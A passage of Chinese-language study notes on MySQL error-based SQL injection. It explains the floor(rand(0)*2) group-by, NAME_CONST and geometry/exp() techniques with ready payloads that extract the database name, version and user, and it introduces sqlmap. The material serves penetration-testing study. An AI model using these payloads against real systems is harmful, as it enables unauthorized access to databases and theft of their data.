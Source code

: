 ### concat+rand()+group_by()导致主键重复
- 本质上基于`floor(rand(0)*2)`的重复性, 导致group by语句出错
- group by key的原理是循环读取数据的每一行, 将结果保存在一个临时表中. 读取每一行的key时, 如果key存在于临时表中, 则不在临时表中更新数据; 如果key不再临时表中, 则在临时表中插入key所在**行**的数据
- 利用方式: `floor(rand(0)*2)` , 会生成0或1两个数
	- `rand()`: 生成0~1之间的随机数, 可以给定一个随机数的种子. 对于每个给定的种子, rand()都会产生一系列可以重复出现的数字
	- `floor()`: 对任意正/负十进制值向下取整
- payload: `union select 1 from(select count(*),concat((select...),floor(rand(0)*2))x from TABLE_NAME group by x` 
	- 获取不同数据只需修改select...部分即可
	- 爆数据库名: `union select 1 from (select count(*),concat((select database())," ",floor(rand(0)*2))x from information_schema.tables group by x)a`

### NAME_CONST()
- `NAME_CONST(column_name, const_value)`
	- column_name: 一个可作为列名的字符串
	- const_value: 常量值
- 返回给定的常量值const_value, 如果用来产生一个集列, 那么列名为column_name
- 等同于 select const_value as column_name
- mysql列名重复会导致报错, NAME_CONST制造一个列; 使用join同时创建两个相同的列造成列名重复
- payload: `exists(select * from (select * from(select name_const(version(),0))a join (select name_const(version(),0))b)c)` (爆数据库版本)

### 其它注入函数
- geometrycollection(): `select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));`
- multipoint(): `select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));`
- polygon(): `select * from test where id=1 and polygon((select * from(select * from(select user())a)b));`
- multipolygon(): `select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));`
- linestring(): `select * from test where id=1 and linestring((select * from(select * from(select user())a)b));`
- multilinestring(): `select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));`
- exp(): `select * from test where id=1 and exp(~(select * from(select user())a));`

---

## Sqlmap注入
### Sqlmap
https://sqlmap.org
https://github.com/sqlmapprojecct/sqlmap
https://github.com/sqlmapproject/sqlmap/wiki/Usage
- sqlmap是一个使用python语言开发的开源的渗透测试工具, 可以用来进行自动化检测, 利用SQL注入漏洞, 获取数据库服务器的权限. 它具有功能强大的检测引擎, 针对各种不同类型数据库的渗透测试的功能选项, 包括获取数据库中存储的数据, 访问操作系统文件, 甚至可以通过外带数据连接的方式执行操作系统命令, 

### 支持的注入模式
- 布尔盲注
- 时间盲注
- 报错注入
- 联合查询注入(union)
- 堆叠查询注入(可以同时执行多条语句)
